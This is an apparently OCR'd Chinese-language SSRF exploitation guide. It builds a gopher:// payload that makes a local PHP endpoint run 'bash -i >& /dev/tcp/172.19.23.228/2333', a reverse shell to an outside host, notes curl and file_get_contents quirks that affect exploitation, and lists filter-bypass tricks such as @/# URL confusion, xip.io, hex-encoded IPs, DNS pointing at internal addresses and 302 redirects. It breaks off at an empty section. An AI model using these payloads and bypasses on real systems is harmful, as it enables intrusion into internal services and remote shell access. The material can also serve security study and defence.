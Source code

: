 ```
Accept: */*
Content-Length: 49
Content-Type: application/x-www-form-urlencoded

e=bash -i >%26 /dev/tcp/172.19.23.228/2333 0>%261
```
值得注意的是:回车换行使用%0d%a(CRLF)。注意POST参数之间的&分隔符也要进行URL编码.
值得注意的是TCP数据包的第一个字符会被吃掉，所以我们需要在TCP数据包前面添加一个无效字符
故有最终payload:
```
gopher://127.0.0.1:80/_POST /exp.php HTTP/1.1%0d%0aHost: 127.0.0.1%0d%0aUser-Agent: curl/7.43.0%0d%0aAccept: */*%0d%0aContent-Length: 49%0d%0aContent-Type: application/x-www-form-urlencoded%0d%0a%0d%0ae=bash -i >%2526 /dev/tcp/172.19.23.228/2333 0>%25261null
```
与gopher协议相关的还有以下几个点:
```
1.PHP的curl默认不跟随302跳转
2.curl7.43gopher协议存在%00截断的BUG，v7.45以上不可用
3.file_get_contents()的SSRF，gopher协议不能使用URLencode
4.file_get_contents()的SSRF，gopher协议的302跳转有BUG会导致利用失败
```
# SSRF的绕过方法
## @或#
```    
http://abc@127.0.0.1
127.0.0.1#http://abc
```
## 添加端口号
```
http://127.0.0.1:8080
```
## 短网址
```
http://dwz.cn/11SMa
```
## 可以指向任意 ip 的域名：xip.io
```
10.0.0.1.xip.io 10.0.0.1
www.10.0.0.1.xip.io 10.0.0.1
mysite.10.0.0.1.xip.io 10.0.0.1
foo.bar.10.0.0.1.xip.io 10.0.0.1
```
## ip 地址转换成进制来访问
```
127.0.0.1 = 0x7f000001 = 0x7f.0x00.0x00.0x01
```
## 利用dns将域名解析为内网ip。
```
http://test.th1s.cn->10.1.1.1
```
## 利用301或者302跳转
``` php
<?php header('Location:10.1.1.1');?>
```
## 句号绕过
```
```